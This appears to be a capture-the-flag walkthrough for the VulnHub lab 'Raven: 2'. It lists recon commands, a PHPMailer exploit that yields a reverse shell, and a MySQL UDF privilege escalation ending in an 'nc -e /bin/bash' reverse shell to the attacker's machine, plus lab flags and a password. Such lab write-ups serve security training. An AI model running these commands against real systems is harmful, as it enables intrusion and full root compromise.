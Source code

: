 

# Raven: 2 Walkthrough

**VulnHub Link:** [Raven:2](https://www.vulnhub.com/entry/raven-2,269/)
**Difficulty:** Easy
**Release Date:** 9 Nov 2018


## 1.Reconnaissance

nmap -A -O -T4 -P -sV 192.168.100.160

dirb 192.168.100.160


## 2.Web Enumeration

we found out website use wordpress

sudo echo 'raven.local		192.168.100.160' > /etc/hosts

wpscan --url 'http://raven2.local/wordpress' -e ap,u

flag1 found from http://192.168.100.160/vendor/PATH
flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}

we obtain flag3 from image 
flag3{a0f568aa9de277887f37730d71520d9b}

michael and steven users found

## 3.Exploitation

we found an exploit related to phpmailer

wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/Raven%3A2/phpmailer.py

we change host and port in phpmailer.py and run

in another terminal ---> rlwrap nc -nvlp 1234

python phpmailer.py , shell obtained..

flag2 found from /var/www/
flag2{6a8ed560f0b5358ecf844108048eb337} 


then we found mysql root password from /var/www/html/wordpress/wp-config.php

wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/Raven%3A2/raven.c

gcc -g -fPIC -shared -o raven.so raven.c

we send this raven.so to attack machine

## 4.Privilege Escalation

mysql -u root -p R@v3nSecurity

```use mysql;```
```>>>create table raven(line blob);```
```>>>insert into raven values(load_file('/var/tmp/raven.so'));```
```>>>select *from raven into dumpfile "/usr/lib/mysql/plugin/raven.so";```
```>>>create function do_system returns integer soname 'raven.so';```
```>>>select do_system("nc -nv 192.168.100.14 4444 -e /bin/bash"); ---> in another terminal we run ---> nc -nvlp 4444```

we obtain root shell and flag4 found...!
